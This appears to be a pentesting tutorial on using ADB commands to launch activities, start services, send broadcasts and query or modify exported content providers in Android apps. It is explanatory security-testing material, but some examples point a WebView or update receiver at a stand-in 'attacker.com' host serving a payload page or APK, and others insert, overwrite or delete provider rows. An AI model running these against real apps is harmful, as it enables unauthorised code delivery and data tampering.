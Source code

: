 When analyzing or pentesting an Android application, it is often necessary to interact directly with its **components** (Activities, Services, BroadcastReceivers, Content Providers). ADB (`adb shell am ...` and `adb shell content ...`) allows you to do this without modifying the app or writing code. This is especially useful to test exported components or those with weak permission controls.

---

## Starting an Activity

An **Activity** is a single screen in an Android application. If it is **exported** or has an Intent filter, it can be launched externally.

#### Syntax
```bash
adb shell am start -n <package>/<activity>
```

#### Common Flags

- `-a` → Action (e.g., `android.intent.action.VIEW`)
- `-d` → Data URI (deep link or resource)
- `--es` → String extra
- `--ei` → Integer extra
- `--ez` → Boolean extra
- `--esn` → Null string extra


### Examples

1. Start the main Activity:
```bash
adb shell am start -n com.example.app/.MainActivity
```

2. Open a WebView Activity with a malicious deep link:
```bash
adb shell am start -n com.example.app/.WebViewActivity \
    -a android.intent.action.VIEW \
    -d "http://attacker.com/payload.html"
```

3. Pass custom extras:
```bash
adb shell am start -n com.example.app/.LoginActivity \
    --es username "admin" \
    --es password "1234"
```


---

## Starting a Service

A **Service** runs in the background without UI. If **exported**, it can be invoked by an attacker.

#### Syntax
```bash
adb shell am startservice -n <package>/<service>
```

#### Examples

1. Start a background service:
```bash
adb shell am startservice -n com.example.app/.SyncService
```

2. Start a service with an action and parameters:
```bash
adb shell am startservice -n com.example.app/.BackgroundService \
    -a com.example.app.ACTION_SYNC \
    --es "userId" "42"
```


---

## Sending a Broadcast Intent

A **BroadcastReceiver** listens for system-wide messages (like WiFi connection changes, incoming SMS, etc.). If exported, an attacker can send **forged broadcasts**.

#### Syntax
```bash
adb shell am broadcast -n <package>/<receiver> -a <action>
```

#### Examples

1. Trigger a custom app broadcast:
```bash
adb shell am broadcast -n com.example.app/.MyReceiver \
    -a com.example.app.ACTION_NOTIFY \
    --es "message" "Hello from ADB"
```

2. Simulate system broadcasts:
```bash
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

3. Send malicious extras:
```bash
adb shell am broadcast -n com.example.app/.UpdateReceiver \
    -a com.example.app.ACTION_UPDATE \
    --es "url" "http://attacker.com/update.apk"
```


---

## Querying an Exported Content Provider

A **Content Provider** manages structured app data (often backed by SQLite). If **exported**, it can be accessed externally.

#### Syntax
```bash
adb shell content query --uri content://<authority>/<path>
```

#### Examples

**Basic Query**
```bash
adb shell content query --uri content://com.example.app.provider/users
```

**Inserting Data**
Add a new row to the provider using `--bind` to specify column values:
```bash
adb shell content insert --uri content://com.example.app.provider/users \
    --bind "username:s:attacker" \
    --bind "password:s:1234"
```

**Updating Data**
Modify existing rows with `--where` to filter:
```bash
adb shell content update --uri content://com.example.app.provider/users \
    --where "id=1" \
    --bind "username:s:evil"
```

**Deleting Data**
Remove rows with `--where`:
```bash
adb shell content delete --uri content://com.example.app.provider/users \
    --where "id=1"
```

**Discover Providers**
```bash
adb shell dumpsys package com.example.app | grep provider
```
